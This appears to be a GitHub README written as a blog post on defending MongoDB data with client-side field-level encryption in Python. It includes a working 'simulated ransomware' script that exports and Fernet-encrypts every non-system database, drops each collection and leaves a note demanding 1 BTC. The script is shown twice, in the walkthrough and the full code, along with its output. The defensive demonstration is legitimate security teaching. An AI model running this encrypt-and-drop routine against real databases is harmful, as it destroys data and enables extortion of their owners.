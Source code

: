 # mdb-ransomware-defense
# Protecting Against Ransomware with MongoDB CSFLE

In this blog post, we delve into the details of protecting our MongoDB data against potential ransomware attacks. This is achieved by implementing client-side field-level encryption using MongoDB Atlas and Python. CSFLE encrypts sensitive fields within your application before sending them to the database, ensuring their confidentiality even if attackers gain access.
### Prerequisites

We'll utilize the following Python libraries:

* **pymongo**: MongoDB driver
* **bson**: BSON document creation and manipulation
* **cryptography.fernet**: High-level symmetric encryption

**Installation:**

```bash
pip install pymongo bson cryptography
```

### Setting Up Encryption

CSFLE targets specific fields in your documents for encryption. It's ideal for securing sensitive data like credit card numbers or social security numbers.

Here's how we configure CSFLE for our MongoDB client:

```python
from pymongo.encryption import AutoEncryptionOpts, ClientEncryption, Algorithm
from bson.codec_options import CodecOptions

# Generate a local master key (replace with a secure key management solution)
local_master_key = os.urandom(96)

# Define Key Management Service (KMS) provider and key vault namespace
kms_providers = {"local": {"key": local_master_key}}
key_vault_namespace = "encryption.__pymongoTestKeyVault"

# Create a MongoDB client with automatic encryption options
csfle_opts = AutoEncryptionOpts(kms_providers=kms_providers, key_vault_namespace=key_vault_namespace)
client = pymongo.MongoClient(auto_encryption_opts=csfle_opts)
```

**Note:** In production, replace `local_master_key` with a secure key management solution like AWS KMS or Google Cloud KMS.

## Creating an Encrypted Collection

Next, we'll create an encrypted collection in our MongoDB database where the sensitive data will be stored. We'll use the `create_encrypted_collection` method of the `ClientEncryption` class to do this.

```python
key_id1 = client_encryption.create_data_key("local", key_alt_names=["example1"])
encrypted_database_name, encrypted_collection_name = "test_db", "test_collection"
encrypted_fields_map = {"fields": [{"path": "ssn", "bsonType": "string", "keyId": key_id1, "queries": {"queryType": "equality"}}]}
client_encryption.create_encrypted_collection(client[encrypted_database_name], encrypted_collection_name, encrypted_fields_map, "local", local_master_key)
encrypted_collection = client[encrypted_database_name][encrypted_collection_name]
encrypted_collection.insert_one({"username": "test_user", "ssn": "123-45-6789"})
print(list(encrypted_collection.aggregate([{"$match": {"ssn": "123-45-6789"}}])))
#[{'_id': ObjectId('670128119965e019a8600e1e'), 'username': 'test_user', 'ssn': '123-45-6789', '__safeContent__': [b'\xd5\xdfm\xaf`\x85\x04T\xa65G\xe36\x1a\x10\xe8\x07\x84\xa5z\x15\xb7\xc8\xcb\xb0\x85d#\x1dp\xf7A']}]
```

In the code above, we start by creating a data key for our local KMS. We then define the database and collection names, and specify the fields to be encrypted in the `encrypted_fields_map`. We create the encrypted collection and insert a document into it. Finally, we print the result of a query matching the encrypted field.

## Encrypting and Exporting MongoDB Data

We'll define a function `export_encrypt_mongodb` that exports and encrypts a MongoDB collection. It uses the `mongoexport` command to export the collection to a JSON file. Then, it encrypts the JSON file using Fernet symmetric encryption, and finally deletes the original unencrypted JSON file. 

```python
def export_encrypt_mongodb(db_name, collection_name, key):
    command = ["mongoexport", "--db", db_name, "--collection", collection_name, "--out", f"./output/{db_name}-{collection_name}.json"]
    subprocess.run(command, check=True)
    with open(f'output/{db_name}-{collection_name}.json', 'rb') as f: data = f.read()
    with open(f'output/{db_name}-{collection_name}.json.enc', 'wb') as f: f.write(Fernet(key).encrypt(data))
    os.remove(f'output/{db_name}-{collection_name}.json')
    client[db_name][collection_name].drop()
```

## Decrypting MongoDB Data

We'll also define a function `decrypt_print_data` that decrypts and prints the encrypted data. This function will be useful to confirm that the data is still decryptable with the encryption key.

```python
def decrypt_print_data(db_name, collection_name, key):
    with open(f'output/{db_name}-{collection_name}.json.enc', 'rb') as f: 
        decrypted_data = Fernet(key).decrypt(f.read()).decode('utf-8')
        print("Confirm its still decryptable with the key: ", key)
        print(f"Decrypted data from {db_name}; {collection_name}:\n{decrypted_data}\n")
```

Finally, we simulate a ransomware attack:

```python
key = Fernet.generate_key()
for db_name in [db for db in client.list_database_names() if db not in ['admin', 'local', 'config']]:
    for collection_name in client[db_name].list_collection_names():
        export_encrypt_mongodb(db_name, collection_name, key)
        decrypt_print_data(db_name, collection_name, key)
client['RANSOM_NOTE']['README'].insert_one({'note': 'Your data has been encrypted. Send 1 BTC to restore your data.'})
```

## Full Code
```python
from pymongo.encryption import AutoEncryptionOpts, ClientEncryption, Algorithm
from bson.codec_options import CodecOptions
from bson.binary import STANDARD
import os, pymongo, subprocess
from cryptography.fernet import Fernet

def export_encrypt_mongodb(db_name, collection_name, key):
    command = ["mongoexport", "--db", db_name, "--collection", collection_name, "--out", f"./output/{db_name}-{collection_name}.json"]
    subprocess.run(command, check=True)
    with open(f'output/{db_name}-{collection_name}.json', 'rb') as f: data = f.read()
    with open(f'output/{db_name}-{collection_name}.json.enc', 'wb') as f: f.write(Fernet(key).encrypt(data))
    os.remove(f'output/{db_name}-{collection_name}.json')
    client[db_name][collection_name].drop()
def decrypt_print_data(db_name, collection_name, key):
    with open(f'output/{db_name}-{collection_name}.json.enc', 'rb') as f: 
        decrypted_data = Fernet(key).decrypt(f.read()).decode('utf-8')
        print("Confirm its still decryptable with the key: ", key)
        print(f"Decrypted data from {db_name}; {collection_name}:\n{decrypted_data}\n")

local_master_key = os.urandom(96)
kms_providers = {"local": {"key": local_master_key}}
key_vault_namespace = "encryption.__pymongoTestKeyVault"
csfle_opts = AutoEncryptionOpts(kms_providers=kms_providers, key_vault_namespace=key_vault_namespace)
client = pymongo.MongoClient(auto_encryption_opts=csfle_opts)

try:
    key_vault_db, key_vault_coll = key_vault_namespace.split(".", 1)
    key_vault = client[key_vault_db][key_vault_coll]
    key_vault.drop()
    key_vault.create_index("keyAltNames", unique=True)
except (pymongo.errors.InvalidName, pymongo.errors.DuplicateKeyError) as e: print(f"Error: {e}")

try:
    client_encryption = ClientEncryption(kms_providers, key_vault_namespace, client, CodecOptions(uuid_representation=STANDARD))
except pymongo.errors.EncryptionError as e: print(f"Error creating ClientEncryption: {e}")

key_id1 = client_encryption.create_data_key("local", key_alt_names=["example1"])
encrypted_database_name, encrypted_collection_name = "test_db", "test_collection"
encrypted_fields_map = {"fields": [{"path": "ssn", "bsonType": "string", "keyId": key_id1, "queries": {"queryType": "equality"}}]}
client_encryption.create_encrypted_collection(client[encrypted_database_name], encrypted_collection_name, encrypted_fields_map, "local", local_master_key)
encrypted_collection = client[encrypted_database_name][encrypted_collection_name]
encrypted_collection.insert_one({"username": "test_user", "ssn": "123-45-6789"})
print(list(encrypted_collection.aggregate([{"$match": {"ssn": "123-45-6789"}}])))
key = Fernet.generate_key()
for db_name in [db for db in client.list_database_names() if db not in ['admin', 'local', 'config']]:
    for collection_name in client[db_name].list_collection_names():
        export_encrypt_mongodb(db_name, collection_name, key)
        decrypt_print_data(db_name, collection_name, key)
client['RANSOM_NOTE']['README'].insert_one({'note': 'Your data has been encrypted. Send 1 BTC to restore your data.'})
```

## Output
```
2024-10-05T07:50:41.739-0400	connected to: mongodb://localhost/
2024-10-05T07:50:41.744-0400	exported 1 record
Confirm its still decryptable with the key:  b'qK2N6G8SEQ6OKquCdpGLvieWdprozfDUGfXbJfp65aM='
Decrypted data from test_db; test_collection:
{"_id":{"$oid":"670128119965e019a8600e1e"},"username":"test_user","ssn":{"$binary":{"base64":"DhInIwkz/0Wwo3nVQ+15dowC0EKRizwGdNTRSMAxwNqeOoJ35JQNZwBpTYA11qbIRTc2Lpk7fLfCAJ0vTMyMUmtEdpU2Scj0spb7Sqn9yyuwm/4BKpsl5zd//Hn0YTZmOEcFMTtnEmD0v5aOZyxHyJMtem5rcdXSXKOrn8qPFtZBzry/Co21aqzoEW4fbr9C5FyOUCHUELzUVDOqF586Yoru1d9tr2CFBFSmNUfjNhoQ6AeEpXoVt8jLsIVkIx1w90EndwIOqOTwNA1eUgX7nhkjWwYRHd3JY1zqhXHyoRvPAA==","subType":"06"}},"__safeContent__":[{"$binary":{"base64":"1d9tr2CFBFSmNUfjNhoQ6AeEpXoVt8jLsIVkIx1w90E=","subType":"00"}}]}
```

## Conclusion

In this scenario, while the simulated ransomware attack managed to encrypt the entire MongoDB database, it's crucial to remember that **sensitive data remained protected** thanks to Client-Side Field Level Encryption (CSFLE). CSFLE encrypts these fields within the application itself, rendering them unreadable even if attackers gain access to the database. This powerful feature demonstrates the importance of layered security strategies to safeguard sensitive information in the face of evolving cyber threats. 

## Limitations of Client-Side Field Level Encryption (CSFLE)

While CSFLE offers a valuable layer of security for your MongoDB data, it's important to be aware of its limitations:

* **Limited Encryption Scope:** CSFLE encrypts specific fields within documents, not entire documents or collections. This means attackers with access to the database can still potentially exploit unencrypted information.
* **Key Management Challenges:** Securely managing the encryption keys used by CSFLE is crucial. Losing these keys renders the encrypted data permanently inaccessible. In the provided example, a local master key was used for simplicity, but in production environments, a robust Key Management Service (KMS) like AWS KMS or Google Cloud KMS is highly recommended.
* **Performance Overhead:** Encryption and decryption processes associated with CSFLE can introduce slight performance overhead, especially for write-heavy workloads.
* **Limited Query Capabilities:** CSFLE may not support all query types and operators on encrypted fields. Complex queries involving encrypted fields might require additional processing or workarounds. 
* **Platform Dependence:** CSFLE compatibility varies depending on the MongoDB server version and driver used. Ensure your environment is compatible before implementing CSFLE.
